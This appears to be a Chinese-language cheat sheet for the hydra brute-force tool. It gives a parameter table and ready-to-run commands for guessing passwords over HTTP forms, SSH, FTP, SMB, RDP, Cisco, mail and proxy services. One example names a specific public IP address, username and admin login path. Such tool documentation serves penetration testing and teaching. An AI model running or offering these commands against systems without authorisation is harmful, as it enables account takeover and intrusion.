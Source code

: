 ## hydra九头蛇：暴力破解工具
hydra是一个支持众多协议的爆破工具。<br>

**参数详解**<br>
参数 | 用途
---- | -----
-l | 指定单个用户名，适合在知道用户名爆破用户名密码时使用
-L | 指定多个用户名，参数值为存储用户名的文件的路径(建议为绝对路径)
-p | 指定单个密码，适合在知道密码爆破用户名时使用
-P | 指定多个密码，参数值为存贮密码的文件(通常称为字典)的路径(建议为绝对路径)
-C | 当用户名和密码存储到一个文件时使用此参数。注意，文件(字典)存储的格式必须为 "用户名:密码" 的格式。
-M | 指定多个攻击目标，此参数为存储攻击目标的文件的路径(建议为绝对路径)。注意：列表文件存储格式必须为 "地址:端口"
-t | 指定爆破时的任务数量(可以理解为线程数)，默认为16
-s | 指定端口，适用于攻击目标端口非默认的情况。例如：http服务使用非80端口
-S | 指定爆破时使用 SSL 链接
-R | 继续从上一次爆破进度上继续爆破
-v/-V | 显示爆破的详细信息
-f | 一但爆破成功一个就停止爆破
server | 代表要攻击的目标(单个)，多个目标时请使用 -M 参数
service | 攻击目标的服务类型(可以理解为爆破时使用的协议)，例如 http ，在hydra中，不同协议会使用不同的模块来爆破，hydra 的 http-get 和 http-post 模块就用来爆破基于 get 和 post 请求的页面
OPT | 爆破模块的额外参数，可以使用 -U 参数来查看模块支持那些参数，例如命令：hydra -U http-get

### 1、破解http post:
```shell
hydra -t 10 -l vaccigen -P /opt/fuzzDicts-master/passwordDict/top6000.txt -o out.txt -f -vV 52.196.234.51 http-post-form "/admin/index.php:account=^USER^&password=^PASS^:error" 
```
### 2、破解http get:
```shell
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
```
### 3、破解https:
```shell
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https 
```
### 4、破解ssh:
```shell
hydra 192.168.56.12 ssh -l user -P /root/Work/sshpasswd.list -t 6 -V -f
```
### 5、破解ftp:
```shell
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 
```
### 6、破解teamspeak： 
```shell
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak 
```
### 7、破解cisco： 
```shell
hydra -P pass.txt 10.36.16.18 cisco 
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable 
```
### 8、破解smb： 
```shell
hydra -l administrator -P pass.txt 10.36.16.18 smb 
```
### 9、破解pop3： 
```shell
hydra -l muts -P pass.txt my.pop3.mail pop3 
```
### 10、破解rdp： 
```shell
hydra ip rdp -l administrator -P pass.txt -V 
```
### 11、破解http-proxy： 
```shell
hydra -l admin -P pass.txt http-proxy://10.36.16.18 
```
### 12、破解imap: 
```shell
hydra -L user.txt -p secret 10.36.16.18 imap PLAIN 
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```
